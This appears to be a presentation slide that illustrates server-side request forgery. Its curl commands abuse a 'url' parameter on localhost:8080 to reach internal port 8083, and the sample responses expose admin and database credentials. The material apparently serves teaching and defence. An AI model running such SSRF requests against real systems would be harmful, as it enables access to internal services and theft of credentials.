

# EXAMPLE
Attack Details :	Attacker will try to scan multiple ports via changing port number in url like below and he founds 8083 is reachable port. He will try to get adminDetail using below endpoint.
Admin Details
curl http://localhost:8080/api/users?url=http://localhost:8083/api/adminDetail
Response : {'username':'admin','password':'OhMyGod@123'}
Db Sensitive Details
curl http://localhost:8080/api/users?url=http://localhost:8083/api/dbDetail
Response : {'dbName':'controller','host':'10.0.1.35','username':'root', 'password':'XSuper@#12345', 'port':'5432'}
(4)